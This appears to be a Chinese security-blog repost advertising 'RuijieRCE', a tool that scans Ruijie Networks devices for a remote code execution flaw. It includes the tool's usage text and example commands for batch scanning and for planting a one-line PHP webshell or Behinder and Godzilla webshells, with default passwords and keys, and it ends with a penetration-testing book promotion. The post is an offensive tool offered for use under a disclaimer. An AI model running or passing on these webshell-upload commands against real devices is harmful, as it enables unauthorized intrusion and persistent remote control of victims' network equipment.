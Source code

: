 #  锐捷RCE漏洞检测工具 -- RuijieRCE(2月26日更新)   
inbornavenue  Web安全工具库   2025-02-26 16:03  
  
===================================  
免责声明请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。个人微信：ivu123ivu  
0x01 工具介绍  
Ruijie Networks RCE漏洞检测工具，为方便渗透测试使用，可以批量检测，也会生成历史记录。同时也为防止他人恶意使用，可自定义GET参数密码，该密码由sha256加密，难以破解。同时也可以上传冰蝎马或者哥斯拉马。批量检测支持并发。  
```
Usage of ./RuijieRCE:
  -f string
    	导入.txt文件批量扫描
  -k string
    	写入shell密钥，一句话马默认为cmd，哥斯拉马默认为key，冰蝎马没有密钥
  -n string
    	写入shell默认一句话马🐎，B冰蝎马，G哥斯拉马
  -p string
    	写入shell密码，一句话马默认为cmd，哥斯拉马默认为pass，冰蝎马默认为rebeyond
  -u string
    	目标URL
```  
  
0x02 安装与使用  
检测到漏洞后生成随机数.php文件执行命令，也可以上菜刀。   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/8H1dCzib3Uibt3nicAjg5lyTLHdXCDyriaUDuUyRhnzZEjHGQ88gUaM58xoYttDvGDiaW6wicPG1DSFgl5b0vJAJWs3w/640?wx_fmt=png&from=appmsg "")  
  
上传一句话木马  
  
GET密码：cmd POST密码：cmd  
```
./RuijieRCE -u http://127.0.0.1:4430
```  
  
设置密码  
  
-n参数为POST密码，-p参数为GET密码 这两个参数缺省时均为cmd，可以只设置一个或者同时都设置  
```
./RuijieRCE -u http://127.0.0.1:4430 -n asd -p zxc
```  
  
上传冰蝎马  
  
默认密钥为rebeyond，也可以使用-p参数修改  
```
./RuijieRCE -u http://127.0.0.1:4430 -n B -p rebeyond
```  
  
上传哥斯拉马  
  
哥斯拉加密器使用BASE64，默认密码为pass，密钥为key  
```
./RuijieRCE -u http://127.0.0.1:4430 -n G -p pass -k key
```  
  
批量测试  
  
批量测试时也可以设置上传冰蝎马、哥斯拉马以及自定义密码  
```
./RuijieRCE -f url.txt
```  
  
  
  
**·****今 日 推 荐**  
**·**  
  
> 《Kali渗透测试技术标准教程（实战微课版）》共8章，从Kali的起源讲起，介绍Kali的相关知识、渗透测试的相关内容、测试标准、实验环境、Kali的下载与安装、Kali的基本操作、终端窗口的操作、软件的安装、Kali系统的各种基础操作、信息收集的内容、信息收集工具的使用、信息枚举工具的使用、嗅探与欺骗的作用、抓包工具的使用、截包与改包工具的使用、欺骗工具的使用、漏洞的产生与危害、漏洞扫描工具的使用、漏洞的利用、假冒令牌的使用、社会工程学工具包的使用、网络服务密码攻击、常见密码的破解、密码字典的生成、无线网络与无线安全技术、无线密码的破解、无线网络钓鱼攻击等内容。  
  
  
  
  
